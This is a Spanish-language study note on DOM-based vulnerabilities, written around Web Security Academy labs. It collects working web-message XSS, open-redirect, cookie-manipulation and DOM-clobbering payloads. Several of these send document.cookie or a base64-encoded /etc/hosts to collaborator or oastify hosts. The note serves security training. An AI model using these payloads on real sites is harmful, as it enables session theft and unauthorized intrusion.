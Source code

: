 ## ¿Qué es el DOM?

El **Document Object Model (DOM)** es una representación jerárquica de los elementos existentes en una página web. Los sitios web pueden utilizar Javascript para manipular nodos y objectos del DOM, así como sus propiedades.

La manipulación del **DOM** en sí no es un problema, de hecho, es una parte integral de cómo funcionan los portales web modernos. Sin embargo, **Javascript** puede manejar datos de forma poco seguro permitiendo habilitar que sea vulnerable a diferentes tipos de ataques.

Las vulnerabilidades basadas en **DOM** surgen cuando un sitio web contiene **Javascript** que toma un valor que el atacante puede controlar, conocido como **fuente** (**source** en inglés) y lo pasa a una **función peligrosa**, conocida como **sumidero** (**sink** en inglés).

* Source: `location.search`
* Sink: `eval()` OR Sink HTML: `document.body.InnerHTML`

### Fuentes comunes

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
AddEventListener
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
### Sumideros Comunes:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

<hr>

- Source: **AddEventListener** `Primeros 3 labs, resumidos.`
	- LAB: DOM XSS Web Messages
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

	* LAB: DOM XSS Web Messages Javascript:url
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`
    - 
	*  LAB: DOM XSS Web Messages & **JSON** Parse
    - `<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

#### Pequeño ejemplo para filtrar la Cookie:  `javascript:url`

```js
//Filtrar la cookie: 
<iframe src="https://ID-LAB.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://colaborador.com?cookie=${document.cookie}`)//http:','*')">
</iframe>

//etc/hosts
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://YOUR-BURP-COLLABORATOR-SUBDOMAIN/?data=${btoa(await (await fetch(`/etc/hosts`)).text())}`)//http:','*')">
</iframe>

//EXAM
<iframe src=https://0a0700e703d0222e8184767a0037002d.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"redirect\",\"redirectUrl\":\"javascript:fetch(`https://vpoxa5f3ksate8svj2d7j80io9u0iu6j.oastify.com?cookie=${document.cookie}`)\"}","*")'>

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:fetch(https://colaborador.com?cookie=${document.cookie})\"}","*")'>
```

- Check for DOM redirections (parameters hidden in source code)
- Cookies containing URLs

<hr>
### Steal a cookie: `img`

```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

### DOM XSS using web messages

```
Notice that the home page contains an addEventListener() call that listens for a web message.

Go to the exploit server and add the following iframe to the body. Remember to add your own lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL

```
Notice that the home page contains an addEventListener() call that listens for a web message. 
The JavaScript contains a flawed indexOf() check that looks for the strings "http:" or "https:" anywhere within the web message. It also contains the sink location.href.

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### DOM XSS using web messages and JSON.parse

```
Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse(). In the JavaScript, we can see that the event listener expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM Based Open Redirection `location.href`

```js
//PAYLOAD: & `Location.href`
The blog post page contains the following link, which returns to the home page of the blog:

<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

//Y mandamos la URL para que cargue el server exploit así:
* https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM Based Cookie Manipulation `lastViewedProduct`

```js
//PAYLOAD: & `Cookie: SameSite=None`
//El problema recae en que la cookie es controlable por el atacante
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Go to the exploit server and add the following `iframe` to the body, remembering to replace `YOUR-LAB-ID` with your lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
//encoded a URL, en caso tal de que no funcionara así, LA segunda fase. 

//EJEMPLO EXPLOTACION DEL LAB CUANDO LO HICÉ: 
<iframe src="https://ID-LAB.web-security-academy.net/product?productId=1&%27/%3E%3Cscript%3Eprint()%3C/script%3E" onload="if(!window.x)this.src='https://ID-LAB.web-security-academy.net';window.x=1;">

```

### DOM Clobbering to Enable XSS

```js
//La sección de comentarios implementa un script vulnerable el cual usa sumideros inseguros como xmlHttpRequest
//En la seccion de comentarios HTML tiré un: <img src=x onerror=alert(1)> y coló WTFjaja, pero la solución real es: 
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//Está parseado en HTML pero en esencia es lo mismo que la teoria, en este caso se tomo la variable de `defaultAvatar`

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

```

Eso es todo de dom, ave maría.
